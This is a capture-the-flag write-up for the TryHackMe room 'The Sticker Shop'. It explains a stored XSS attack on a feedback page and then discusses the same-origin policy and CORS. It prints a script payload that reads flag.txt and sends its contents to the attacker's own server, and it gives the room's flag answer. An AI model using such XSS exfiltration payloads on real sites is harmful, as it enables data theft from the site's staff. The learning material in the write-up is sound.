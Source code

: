 # The Sticker Shop

### The sticker shop is finally online!
- What is the content of flag.txt?<br />
Initial scan shows port 22 and 8080 open:<br />
![image](https://github.com/user-attachments/assets/3c226334-4a0a-4938-8bc6-990b96401200)<br />
Looking at the webpage, there's a page to send customer feedback:<br />
![image](https://github.com/user-attachments/assets/18c3de7a-9635-46ff-a8da-edd3f4526399)<br />
Since the room is suggesting that the developers use the same computer for hosting the website and for looking at customer feedback, my first guess is that I need to do XSS. <br />
After some time of trying payloads, the correct one to get the flag is provided in the file named `payload` in this folder. Remember to change the script to adapt to your IP address and to first open a web server with `python3 -m http.server PORT`<br />
![image](https://github.com/user-attachments/assets/92871c0f-5ccf-454a-a8ce-392bd540f844)<br />
`THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

### What I've learned
I honestly thought that the right payload could also be the following: 

    <script>
    fetch('http://10.10.17.174:8080/flag.txt')
        .then(response => response.text())
        .then(data => {
            fetch('http://10.11.85.53:8001/?flag=' + encodeURIComponent(data));
        })
    </script>
Where the only difference is that instead of the local IP address `127.0.0.1`, I put `10.10.17.174`, which is the IP address of my target machine instance. I spent hours trying to make it work, but it didn't. Why didn't it work? The reason is called **same origin policy(SOP)**.<br /><br />
Same Origin Policy is a security measure implemented by web browsers that allows **JavaScript code executed on a web page to access resources only from the same origin**, which encompasses the same domain, protocol, and port combination.<br />
Suppose I send a request to `http://example.com/index.html`, and then the html of this page contains a script like the following: 

    <script>
    fetch('http://api.otherdomain.com/secret-data.json')
      .then(response => response.text())
      .then(data => console.log('Content:', data))
    </script>  
Technically, at this point my browser should execute this javascript, and make a request to `http://api.otherdomain.com/secret-data.json`. However this does not happen, because every modern browser, including mine, implements SOP. In this case, my browser can see that I made a request to `http://example.com`, but then I need to execute a javascript code and fetch data from another domain. Everytime a website wants me to fetch a resource, my browser checks if that resource is from the same protocol(http), domain(example.com) and port(80) of the original website. Since `api.otherdomain.com` is different from `example.com`, my browser won't fetch the resource. This policy prevents requests between different origins and restricts browser-based attacks. <br /><br />
In the case of this CTF, the victim(the staff)'s browser probably accessed the webpage not with `http://10.10.17.174`, but with `http://127.0.0.1`. This means that first, the staff views the feedback page(by fuzzing the server with XSS payloads I found out a `/view_feedback` directory). This page would then contain our injected javascript, that tries to fetch data from `10.10.17.174`, which even if is technically the same resource, to the browser it is different from `127.0.0.1`. This is the reason why it didn't work, and I'm happy I learned something new. <br /> <br />
Another thing. To overcome the limitations imposed by the SOP, **Cross-Origin Resource Sharing (CORS)** was introduced. CORS allows a web browser to relax the restrictions and grant access to its resources for requests coming from a different origin. It is an HTTP header-based mechanism.<br />
When a web browser makes a request to a different origin (domain, protocol, or port), the browser initiates a CORS process to determine if the requested resource should be accessible. The server, in response, includes the `Access-Control-Allow-Origin` header in its HTTP response. This header specifies the allowed origins that are permitted to access the requested resource.




